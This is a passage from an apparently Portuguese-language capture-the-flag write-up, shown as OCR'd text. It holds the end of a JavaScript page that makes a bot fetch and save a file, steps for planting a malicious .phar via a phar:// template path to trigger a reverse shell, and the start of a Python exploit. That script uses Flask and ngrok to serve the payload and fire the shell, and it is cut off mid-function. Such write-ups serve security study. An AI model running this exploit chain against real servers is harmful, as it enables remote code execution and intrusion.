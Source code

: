 ```html

          console.log((new Date().toString()) + ' : byteArray length > 30M, actually ' + byteArray.length + ' bytes. Saving locally...');
            const blob = new Blob([byteArray], {
              type: 'application/octet-stream'
            });
            saveAs(blob, fileNameOfFileSaver);

            byteArray = (new TextEncoder()).encode(
              'ExecuteAsyncScript Successfully, File Saved to |' + fileNameOfFileSaver + '| (' + byteArray.length + ' bytes)'
            );

          callback(byteArray);
        };

        xhr.send();
      };

      document.head.appendChild(script);
    });
  </script>
</body>
</html>
```
>Créditos ao `Cong Yang`, da [resposta no StackOverflow](https://stackoverflow.com/a/78749761). Eu só removi a verificação de tamanho do original.

Agora envie essa página para o bot via `/api/claimQuest`.  Depois que o `.phar` for baixado, use o endpoint `/api/admin/appSettings` para atualizar o `template_path` com o wrapper `phar://` e acione o reverse shell chamando `/?c=whoami`.

Aqui o exploit completo, o script em Pyhon irá iniciar um Flask server e uma instancia do ngrok e irá lidar com todo o processo de download do `.phar` e quando estiver tudo pronto irá acionar o reverse shell:
```python
import subprocess
import requests
import time
import sys
import argparse
import os
import threading

from flask import Flask, send_file, Response

app = Flask(__name__)

PORT = 5000

TARGET_URL = ""
PHAR_FILE = "./poc.phar"
CMD = ""

NGROK_PROCESS = None
NGROK_PUBLIC_URL = None

PHAR_DOWNLOADED = False

@app.route(f'/phar')
def serve_phar():
    print('[+] Bot requested the PHAR file.')
    
    global PHAR_DOWNLOADED
```